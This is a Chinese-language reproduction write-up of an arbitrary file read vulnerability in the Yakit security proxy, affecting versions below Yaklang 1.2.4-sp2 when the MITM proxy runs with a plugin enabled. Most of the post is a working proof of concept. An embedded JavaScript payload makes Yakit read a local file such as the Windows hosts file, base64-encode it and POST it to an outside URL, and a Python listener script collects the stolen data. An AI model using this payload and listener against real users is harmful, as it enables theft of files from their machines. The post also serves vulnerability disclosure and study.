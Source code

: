 详情可参考原文 有截图复现
原文链接：https://mp.weixin.qq.com/s/IQekVs-UU2Slh6V_frpaug


前言：
yakit是近年新兴的一个BurpSuite平替工具，和burp的区别就在于数据包放过去不用配置ip端口协议这些，但是yakit跑起来感觉卡卡的，远不如burp那么流畅，近期yakit爆出了一个任意文件读取漏洞，此漏洞通过在网页嵌入js代码实现读取yakit使用者设备上的文件
触发版本：
引擎版本< Yaklang 1.2.4-sp2
漏洞条件：
使用yakit的MITM代理并且启用任意插件

Pyload:
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://yakit.com/filesubmit");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send(`file={{base64enc(file(C:\\Windows\\System32\\drivers\\etc\\hosts))}}`);
</script>
```
监听脚本
#! /bin/python3
import socket

# 监听地址和端口

host = '0.0.0.0'
port = 23800

# 创建socket服务器

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

# 绑定并监听端口

server.bind((host, port))
server.listen()

# 接收连接并监听请求

print("Listening...")
while True:
    # 接收客户端连接请求
    client, address = server.accept()
    print(f"Connected by {address}")

    # 读取客户端请求数据
    request = ''
    while True:
        input_data = client.recv(1024).decode('utf-8')
        request += input_data
        if len(input_data) < 1024:
            break
    
    # 提取请求头部
    headers = request.split('\n')
    print("Received headers:")
    for header in headers:
        print(header)
    
    # 关闭客户端连接
    client.close()


```




复现开始：
创建一个html页面并插入payload

启用MITM代理，不启用插件进行访问：
https://mmbiz.qpic.cn/sz_mmbiz_png/OF9Ieq8TATc71LlcBt5FGOn2ibomGw7wMXX7dh9j86aZ7JA0WMoxwHSDdAwnMVSZLoF09zuiamTpkibBtLto8y8KA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1
启用MITM代理并启用插件进行访问：
https://mmbiz.qpic.cn/sz_mmbiz_png/OF9Ieq8TATc71LlcBt5FGOn2ibomGw7wM1RvwO5nnYhpX3aKZeCDdziaCEcOSDfbIcu2wNe27x7aTsPgBXo8KTsQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1


原理：yakit默认不会对经过MITM代理的流量中的fuzztag进行解析，但是经过插件时会被解析，所以这也是利用限制。